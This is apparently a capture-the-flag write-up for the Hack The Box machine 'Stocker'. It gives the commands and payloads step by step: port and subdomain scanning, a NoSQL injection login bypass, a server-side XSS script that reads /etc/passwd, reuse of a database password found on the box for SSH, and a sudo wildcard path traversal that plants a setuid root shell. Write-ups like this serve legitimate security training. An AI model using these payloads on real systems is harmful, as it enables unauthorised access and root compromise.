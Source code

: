 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)

### Recon

#### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.196
nmap -p 22,80 -sCV 10.10.11.196
```
- Open Ports: 22 [SSH](SSH), 80 [HTTP](HTTP.md)
- Hostname Redirects to: `stocker.htb`
- Added `stocker.htb` and `dev.stocker.htb` to `/etc/hosts`

#### Subdomain Discovery
```bash
ffuf -u http://10.10.11.196 -H "Host: FUZZ.stocker.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```
- Found `dev.stocker.htb`

#### Web Enumeration
- `stocker.htb` is a static site
- `dev.stocker.htb` is an Express.js application with a login form

### Shell as angoose

#### NoSQL Injection Auth Bypass
```json
{"username": {"$ne": "0xdf"}, "password": {"$ne":"0xdf"}}
```
- Logs in successfully due to likely NoSQL-based auth.

#### PDF File Read via Server-Side XSS (SSXSS)
- Purchase items and manipulate `title` field in basket JSON.
- Injected JS payload:
```js
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```
- Retrieved `/etc/passwd` and `/var/www/dev/index.js`

#### Found MongoDB URI
```js
'mongodb://prod_user:IHeardPassphrasesArePrettySecure@localhost/prod?authSource=admin&w=1'
```
- Tried SSH with these creds: `ssh angoose@stocker.htb`

#### Gained access:
```bash
sshpass -p 'IHeardPassphrasesArePrettySecure' ssh angoose@stocker.htb
```

### Shell as root

#### Sudo Rights
```bash
sudo -l
(ALL) /usr/bin/node /usr/local/scripts/*.js
```
- Scripts are owned by root and unreadable, but wildcard allows path traversal

#### Exploiting Path Traversal in sudo
```javascript
// /dev/shm/0xdf.js
require('child_process').exec('cp /bin/bash /tmp/0xdf; chown root:root /tmp/0xdf; chmod 4777 /tmp/0xdf')
```
```bash
sudo node /usr/local/scripts/../../../dev/shm/0xdf.js
/tmp/0xdf -p
```

#### Gained Root Access
```bash
/tmp/0xdf -p
cat /root/root.txt
```

---

### Summary
- NoSQL Injection for initial login
- Server-Side XSS to read files from the host
- Exfiltrated DB credentials to access SSH
- Wildcard misconfiguration in sudo allows path traversal to arbitrary root shell

Rooted `Stocker` 🎉